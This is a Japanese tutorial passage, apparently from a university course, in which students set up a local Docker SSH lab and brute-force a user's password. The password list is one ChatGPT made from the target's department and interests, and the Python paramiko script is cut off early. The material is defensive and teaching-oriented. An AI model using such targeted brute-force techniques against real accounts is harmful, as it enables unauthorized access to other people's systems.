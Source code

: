 
以下、Codespaceで行う場合の手順です。  
まずは、`/workspaces/ubuntu-22.04/remote_access`に移動して、docker_setup.shを実行してください。少し時間がかかります。
```
$ cd /workspaces/ubuntu-22.04/remote_access

# 権限を要求された場合
$ chmod 700 docker_setup.sh
$ ./docker_setup.sh
```
上手くいけば、以下のようなメッセージが表示されるはずです。
```
dockerコンテナの準備が完了しました。
'ssh ユーザー名@localhost -p 22222'でSSHログインができます。
```

試しにSSHしてみましょう。パスワードは今のところ分からないはずなので、適当に入力してください。
```
$ ssh chibutsu@localhost -p 22222
The authenticity of host '[localhost]:22222 ([::1]:22222)' can't be established.
ECDSA key fingerprint is SHA256:7CsZMUdMUJCx9qX89ZxRaUj2s8u8MBnuB2NUFZK+W4A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[localhost]:22222' (ECDSA) to the list of known hosts.
chibutsu@localhost's password: 
Permission denied, please try again.
chibutsu@localhost's password: 
Permission denied, please try again.
chibutsu@localhost's password: 
chibutsu@localhost: Permission denied (publickey,password).
```
当たり前ですが、パスワードが分からないのでログインできません。

---

今回はブルートフォース攻撃(総当たり攻撃)をやってみようと思います。あり得そうなパスワードのリストを片っ端から試す攻撃手法です。  

調査の結果、「chibutsu」さんは東京大学の地球惑星物理学科に所属する学生であることが分かりました。
主に固体地球・大気海洋・宇宙惑星が好きな学生が所属する機関らしいです。  
この情報を元に、ChatGPTにパスワードリストを作成してもらい、passwords.txtに保存しました。このテキストファイルを開いて、中身を見てみてください。地物っぽい単語が並んでいると思います。

!!! Note
    ChatGPTの有効な活用の仕方については、「プロンプトエンジニアリング」で検索してみてください。  
    書籍も数多く出版されていますが、ピンキリです。

それでは、このパスワードリストを用いてSSHログインを試しましょう。  
シェルスクリプトで攻撃コードを組むのは地味に大変なので、今回はPythonで組みました。  
理解できなくても良いので、bruteforce_ssh.pyを眺めてみてください。Pythonの授業が終わる頃には、何をしているかなんとなく分かるようになっているはずです。 

```
# bruteforce_ssh.py

import paramiko 
import time
import sys


passwords_path = "passwords.txt" # パスワードリストの場所

# ssh ユーザー名@localhost -p 22222
HOST = "localhost" # SSH接続先
PORT = 22222 # SSH接続のためのポート番号。今回は22222。
USER = "chibutsu" # ユーザー名

# パスワードリストからパスワードを読み込んでSSH接続を試みる。
# 接続が成功したらプログラムを終了させる。
# 失敗したら次のパスワードを試す。
with open(passwords_path, "r") as file:
```